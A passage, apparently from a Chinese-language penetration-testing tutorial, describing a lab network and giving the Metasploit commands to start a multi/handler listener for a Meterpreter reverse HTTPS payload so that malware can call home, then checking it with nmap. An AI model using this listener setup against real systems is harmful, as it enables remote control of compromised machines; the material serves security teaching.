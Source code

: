 1.  确定本地主机地址，您的侦听器将在该地址上侦听，以便您的恶意软件有东西可以回家。在我们的测试网络中，Kali 服务器正在运行在物理主机上的虚拟机上。当恶意软件呼叫时，主机的 IP 或虚拟机的桥接伪以太网卡必须是目的地。如果您在互联网上从 VMS 机器上运行 Kali，这将稍微困难一些。

1.  以下是测试网络的配置。有两台具有互联网访问权限的机器，以及两台只能从内部网络访问的服务器。Kali 186 是攻击者的笔记本电脑，而 Windows 10 工作站是内部网络的跳板。

1.  一旦您启动了 Metasploit，您需要启动侦听器，这样您即将创建的恶意软件在回家时有东西可以回答。

1.  在 MSF 命令提示符中输入以下命令：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.0.0.2
set LPORT 4343 exploit  
```

1.  侦听器是一个正在运行的开放进程，因此光标不会返回到就绪状态。为了显示侦听器是活动的，我们可以使用`nmap`对其进行端口扫描：

![](img/21521e32-60f1-4665-83d5-deccdcb5c9ac.png)

另一方面，侦听器已经对`nmap`扫描做出了响应，并输出了扫描数据：

![](img/f0ff3f00-86bb-4235-a0d8-f2aaf3f0a7da.png)
